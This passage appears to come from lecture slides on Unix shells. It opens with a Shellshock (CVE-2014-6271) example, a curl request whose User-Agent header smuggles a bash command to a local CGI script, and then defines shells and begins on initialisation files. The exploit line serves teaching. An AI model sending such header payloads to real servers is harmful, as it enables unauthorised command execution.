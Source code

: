 ```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'id'" \
  http://localhost:8080/cgi-bin/status
```

</div>
<div style="padding-top: 35px;">

![](../../figures/shellshock-cve.png)

</div>
</div>

---

## What is a shell?

- User interface for running commands
- Interactive language
- Scripting language

---

## Shell Initialisation

The initialisation file sets up the “work environment” and “customizes” the shell environment for the user. The main agenda of Shell initialisation files are to persist common shell configuration, such as:
